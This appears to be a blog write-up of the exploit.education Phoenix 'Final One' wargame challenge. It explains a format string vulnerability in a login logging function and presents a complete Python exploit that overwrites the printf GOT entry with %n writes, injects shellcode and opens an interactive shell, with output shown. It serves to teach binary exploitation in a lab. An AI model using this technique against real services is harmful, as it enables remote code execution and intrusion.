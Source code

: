 ```yaml
---
layout: post
title: "exploit.education Phoenix - Final 0x1"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```


Write-up for: [https://exploit.education/phoenix/final-one/](https://exploit.education/phoenix/final-one/).

<!--more-->

## The vulnerability

The second of the final challenges contains a format string vulnerability. User input is used as a format string, potentially allowing memory corruption and remote code execution. The following code is relevant (stripped).

```C
void logit(char *pw) {
  snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n",
      hostname, username, pw);

  fprintf(output, buf);
}

void parser() {
  while (fgets(line, sizeof(line) - 1, stdin)) {
    if (strncmp(line, "username ", 9) == 0) {
      strcpy(username, line + 9);
    } else if (strncmp(line, "login ", 6) == 0) {
        logit(line + 6);
    }
  }
}
```

The `parser` function reads from `stdin` and stores the content of an input containing the string `username` in the `username` buffer. Then, once an input containing `login` is encountered, the `logit` function is called with the respective string content. In the `logit` function, both `username` and the `pw` argument are used as string arguments for `snprintf`. Here, the format string functionality is used correctly. The function writes the resulting string to the `buf` variable. Then `fprintf` is called with `buf` as its format string argument. This is the vulnerable call since an attacker can introduce additional format string sequences into `buf` that are interpreted by `fprintf`, possibly corrupting memory.

## Developing the exploit

As described in the format string challenge write-ups, the `printf` family of functions will happily take a value from the stack for every format string modifier encountered in the string. It even allows to write data (the number of bytes written so far) by using the `%n` modifier. So our plan of attack is as follows:

- Provide an address of a GOT entry we want to overwrite on the stack (as input)
- Find the argument number of this address
- Fill the string with padding to overwrite the address with the address of our shellcode that we also provide on the stack

To find the argument number of the provided address we can use the `%p` modifier to pop values off the stack. Then it's a matter of trial and error to find the right offset. For testing, there is a local binary under `/opt/phoenix/i486` that supports a `--test`parameter, printing out to `stdout`. We use python to create the required input string, but you could also explore it interactively.

```bash
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print("username AAAA.%p.%p.%p.%p\nlogin \n")' | ./final-one --test' | ./final-one
Welcome to phoenix/final-one, brought to you by https://exploit.education
[final1] $ [final1] $ Login from testing:12121 as [AAAA.0.0.0x69676f4c.0x7266206e] with password []
login failed
```

Note that the minimum required input is `username A\nlogin \n` for the vulnerable code path to be executed. After some experimentation, we reach the following payload:

```bash
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print("username AAAA" + ".%p"*10 + "\nlogin \n")' | ./final-one --test' | ./final-one -
Welcome to phoenix/final-one, brought to you by https://exploit.education
[final1] $ [final1] $ Login from testing:12121 as [AAAA.0.0.0x69676f4c.0x7266206e.0x74206d6f.0x69747365.0x313a676e.0x31323132.0x20736120.0x4141415b] with password []
login failed
```

The 10th value popped from the stack is `0x4141415b`. This indicates that there is an alignment issue for using our provided value. We need to ensure that our fake address is aligned correctly which we can achieve easily by padding it with one more character.

Now that we have our address as an argument at the 10th position, we can use the `%n` modifier to write data to this address. First, let's find a suitable address to overwrite. When I did this challenge I tried embarassingly long to overwrite the GOT entry of `fprintf` because I assumed the vulnerable call was to `snprintf`. But as stated above, `fprintf` is the vulnerable call. After spending way too long trying to figure out why the program was segfaulting in strange ways, I realized my mistake. We need to overwrite a function address that we can be sure is called after `logit`. A good candidate is `printf` which is called all the time in `parser`. We can find the GOT entry address with `objdump`:

```bash
user@phoenix-amd64:/opt/phoenix/i486$ objdump -R final-one | grep printf
08049e48 R_386_JUMP_SLOT   printf
```

So, the address we want to overwrite is `0x0849e48`. We can figure out the value we want to overwrite it with by adding a dummy shellcode in our buffer (the password parameter is a good place to put it, otherwise we might have too little space in the 128 byte lines) and finding it in gdb. Similar to the previous challenge we can attach to the `systemd` process and follow forks.

Since the remainder of the challenge is very similar to the previous format string challenges, I will jump straight to the exploit code. Note that we deploy a similar 2-byte write technique to avoid huge data transfer over the network. Another tricky aspect is getting to the correct number of bytes to pad our payload with since it depends on the origin of the connection, as seen in this part of the code:

```C
  sprintf(hostname, "%s:%d", inet_ntoa(sin.sin_addr), ntohs(sin.sin_port));
```

I emulate this behavior and use it in my calculation. Additionally, the "X 4-byte address AAAA 4-byte address" string equates to another 13 bytes written. Lastly, we write 9 one byte values using "%c" which results in the final length calculation seen in the exploit.

```Python
import struct
import socket
import pwnlib

HOST = "127.0.0.1"
PORT = 64014

PRINTF_GOT_ADDR = 0x08049e48
SHELLCODE_ADDR = 0xffffdcb8 

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

#number of printed bytes is variable depending on the local IPv4 address and port
sockname = s.getsockname()
printf_str = "Login from " + sockname[0] + ":" + str(sockname[1]) + " as ["

buf = "username X" 
buf += struct.pack("<I", PRINTF_GOT_ADDR) + "AAAA"
buf += struct.pack("<I", PRINTF_GOT_ADDR + 2)
buf += "%" + str(0xdcb8 - 22 - len(printf_str)) + "x" + "%c" * 9  + "%n" # byte 1 & 2, addr is 10th argument on the stack
buf += "%" + str(0xffff - 0xdcb8) + "x" + "%n" # third byte and fourth byte
buf += "\nlogin AA" + pwnlib.encoders.encoder.encode(pwnlib.asm.asm(pwnlib.shellcraft.i386.linux.sh()), "\n\r\0%") + "\n\n" # trigger format string vulnerability in logit

print(s.recv(1024))
print("# sending payload.")
s.sendall(buf)
print(s.recv(1024))

print("# we have a shell now.")
while True:
    s.sendall(raw_input() + "\n")
    print(s.recv(1024))
```

For this exploit, the 2-byte write technique is easier since the second write is larger than the first (that is there need to be more bytes written). This means we do not need to make use of an overflowing value. As a shellcode, we again use the `sh()` function built into `pwnlib`.

Let's run it:

```bash
user@phoenix-amd64:~$ python final1_x86.py
Welcome to phoenix/final-one, brought to you by https://exploit.education
[final1] $
# sending payload.
[final1] $ login failed

# we have a shell now.
id
uid=520(phoenix-i386-final-one) gid=520(phoenix-i386-final-one) groups=520(phoenix-i386-final-one)
``` 

Success! Lesson learned for this challenge: always make sure you understand the vulnerability before trying to exploit it.. 
